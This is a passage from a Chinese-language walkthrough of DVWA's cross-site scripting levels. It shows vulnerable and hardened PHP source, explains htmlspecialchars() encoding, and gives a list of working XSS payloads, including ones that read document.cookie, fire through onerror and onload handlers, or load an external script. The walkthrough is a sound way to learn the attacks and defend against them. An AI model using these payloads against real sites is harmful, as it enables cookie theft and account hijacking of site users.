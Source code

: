 ```php

?> 
```
使用正则进行匹配，过滤了大小写混合写入已经双写，但是可以使用img、body等标签的事件以及iframe标签的src注入恶意的js代码进行漏洞利用
`<img src=1 onerror=alert('test')>`
![xss](https://upload-images.jianshu.io/upload_images/9464729-6c8fc0dd38766d98.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
##### 等级Impossible
源代码:
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
// Generate Anti-CSRF token
generateSessionToken();
?> 

```
htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。以防止浏览器将其作为HTML元素。这样会将用户输入的内容都不作为标签以提高安全性。
预定义的字符是：

    & （和号）成为 &amp;
    " （双引号）成为 &quot;
    ' （单引号）成为 '
    < （小于）成为 &lt;
    > （大于）成为 &gt;
一些常用的xss语句
```
   <script>alert(/test/)</script> 最普通的xss代码
   <script>alert(document.cookie);</script> 获取cookie
   <img src="javascript:alert(/test/)"> img链接地址xss
   <script src="test.js"> <script> 外部调用攻击代码ls.js
   <script alert('test)</SCRIPT> 注释方法防止过滤
   <img src="" onerror=alert("xss")> 加载图像失败执行
   <iframe onload=alert('test')> 框架
   <script>location='test.com';</script> 跳转某页面
```
#### 存储型XSS
##### 等级Low
源代码:
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
```